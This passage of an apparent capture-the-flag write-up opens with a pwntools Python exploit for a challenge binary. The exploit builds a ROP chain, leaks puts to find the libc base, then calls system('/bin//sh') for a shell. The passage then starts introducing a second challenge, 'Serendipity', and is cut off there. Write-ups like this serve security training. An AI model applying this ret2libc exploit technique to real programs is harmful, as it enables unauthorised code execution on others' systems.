 ```python
pl+=p64(0x404f00)
pl+=p64(0)
pl+=p64(0x000000000401180)
pl+=p64(ret)
pl+=p64(pop_rdi)
pl+=p64(d)
pl+=p64(pop_rsi_r15)
pl+=p64(0x404018)
pl+=p64(0)
pl+=p64(ret)
pl+=p64(0x000000000401180)
pl+=p64(pop_rdi)
pl+=p64(0x404f00)
pl+=p64(ret)
pl+=p64(elf.sym.puts)


for i in range(0, len(pl), 8):
    io.sendline(str(u64(pl[i:i+8].ljust(8, b'\0'))).encode())
pause()
io.sendline(str(magic).encode())

io.recvuntil(b' Welcome to sanctuary of time')
io.recvline()

libc.address=u64(io.recv(6).ljust(8, b'\0')) - libc.sym.puts
print(hex(libc.address))
og=libc.address+0x1052fa
pause()
io.sendline(str(u64(b'/bin//sh\0')).encode())
pause()
io.sendline(str(libc.sym.system).encode())
io.interactive()
```


Get shell

![image](https://hackmd.io/_uploads/rkoVlp4La.png)


## 2. Serendipity

### Overview

![image](https://hackmd.io/_uploads/BJOd3h4I6.png)

This chall provide 1 binary, attached libc.so.6 file, the `files` directory with has some constant file that use in binary after, and a file name user_config that has KEY and IV value, ok we'll find out later

